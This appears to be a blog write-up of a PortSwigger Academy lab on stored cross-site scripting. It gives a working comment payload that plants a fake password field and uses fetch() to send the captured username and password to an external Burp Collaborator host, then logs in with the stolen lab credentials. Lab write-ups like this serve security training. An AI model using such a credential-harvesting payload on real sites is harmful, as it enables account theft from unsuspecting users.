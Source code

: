 ```yaml
---
layout: post
title:  "Exploiting cross-site scripting to capture passwords"
date:   2024-09-29 09:39:54 +0530
categories: [BSCP, XSS]
---
```


## Initial Information 

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.


## Things to Remember 

<p>
    To prevent the Academy platform from being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use <mark>Burp Collaborator’s default public server</mark>.
</p>
<p>
    Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than <mark>exfiltrating the cookie</mark>.
</p>



## Solution

Same as like what we saw in [Exploiting cross-site scripting to steal cookies](Exploiting cross-site scripting to steal cookies.md) where the blog comment is vulnerable to XSS attack

  

![]({{ site.baseurl }}/assets/images/image%207.png)  

  

Now we will use the following payload to exfil the username and password and send it to our burp collaborator and one thing to note in our payload is we have `no-cors` in order to allow the cross origin requests through a POST request

  

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://s2vt9769p5oun3xnh0d4x0kjpav6jw7l.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

  

Once after posting the payload as looking through the collaborator and recieved a HTTP pingback with the admin credentials 

  

![]({{ site.baseurl }}/assets/images/image%208.png)  

  

These are the credentials ( administrator:l3727agar6s0uz29al5h ) and Once we login with that, our lab is solved 

  

![]({{ site.baseurl }}/assets/images/image%209.png)